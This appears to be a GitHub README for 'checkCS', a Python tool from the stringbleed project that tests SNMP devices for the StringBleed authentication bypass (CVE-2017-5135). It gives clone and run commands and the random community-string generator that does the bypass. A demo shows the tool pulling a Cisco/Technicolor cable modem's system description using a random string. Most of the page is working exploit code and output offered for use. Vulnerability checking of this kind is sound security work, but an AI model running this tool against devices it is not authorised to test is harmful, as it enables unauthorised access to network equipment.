

Check Community String

# Quick start

* usr@pwn:~$ git clone https://github.com/stringbleed/tools.git
* usr@pwn:~$ cd checkCS
* usr@pwn:~$ python checkCS.py 

# "COMMUNITY STRING": #stringbleed (CVE-2017-5135) 
## code:
```
	def stringbleed(rand): # rand harcoded = 7 
	    commName = ""
	    for i in random.sample('abcdefghijklmnopqrstuvwxyz1234567890',rand):
	    	commName += i
	    return commName
```
# usage: 
* usr@pwn:~$ python checkCS.py < host >  < [public | private | stringbleed] > 

## Screenshot

*community public*


*community stringbleed*


# Demo:

```
	usr@pwn:~$ python checkCS.py 192.168.0.1 stringbleed


	[+] Community: 
	[>] c6inzqb


	[+] sys_Description ( [ iso.3.6.1.2.1.1.1.0 ] ):
	[>] Cisco DPC3928SL DOCSIS 3.0 1-PORT Voice Gateway <<HW_REV: 1.0; VENDOR: Technicolor; BOOTR: 2.4.0; SW_REV: D3928SL-PSIP-13-A010-c3420r55105-160428a; MODEL: DPC3928SL>>


```


